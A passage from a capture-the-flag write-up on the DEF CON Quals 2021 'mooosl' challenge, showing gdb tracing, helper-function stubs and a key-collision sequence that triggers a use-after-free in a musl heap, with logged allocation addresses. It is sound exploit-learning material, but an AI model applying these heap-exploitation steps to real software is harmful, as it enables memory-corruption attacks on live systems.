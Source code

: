 ```
c
end

b free
commands
bar
end
```

(You could also use LD_PRELOAD as mhackeroni did: https://github.com/Ikiga1/writeups/tree/master/DefConQuals2021/mooosl to get the same diagnostics without the struggles of gdb)

I wrote simple functions to do `store`, `delete`, and `query`. (See [solve.py](https://github.com/cscosu/ctf-writeups/blob/master/2021/def_con_quals/mooosl/solve.py)). `store` allows for a controlled key and value size. `delete` and `query` allow for controlled key size.

```
def store(key, value, keysize=None, valuesize=None):
    ...
def delete(key, keysize=None, error=False):
    ...
def query(key, keysize=None)
    ....
```

Let's try a simple experiment to see what we can do with the use-after-free. I will be using the colliding keys found in Part 3 above.

1. `store(b'\x02\xd9', b'yeet', keysize=0x8, valuesize=0x20)`
2. `store(b'\x07\xe4', b'yeeticus', keysize=0x8, valuesize=0x20)`
3. `delete(b'\x02\xd9')` This will delete the last node in the list, but it will not be unlinked.
4. `store(b'\x0c\xef', b'yeeticus maximus', keysize=0x8, valuesize=0x20)` Store always inserts at the beginning of the list.
5. Repeat 4 two more times, to see when we get the deleted node back

Here's the sequence of calloc and free that we see:

```
# Store 1: allocate node (always 0x30)
calloc$1 = 0x30
$2 = 0x7f5071cbdc60

# Store 1: allocate key (controlled size)
calloc$3 = 0x8
$4 = 0x559ad37fcc60

# Store 1: allocate value (controlled size)
calloc$5 = 0x20
$6 = 0x7f5071cbd870

# Store 2: allocate node (always 0x30)
calloc$7 = 0x30
$8 = 0x7f5071cbdca0

# Store 2: allocate key (controlled size)
calloc$9 = 0x8
$10 = 0x559ad37fcc70

# Store 2: allocate value (controlled size)
calloc$11 = 0x20
$12 = 0x7f5071cbd8a0

# Delete: allocate key (controlled size)
calloc$13 = 0x3
$14 = 0x559ad37fcc80

# Free key for 1st store (we know via order of free's we see in Ghidra)
```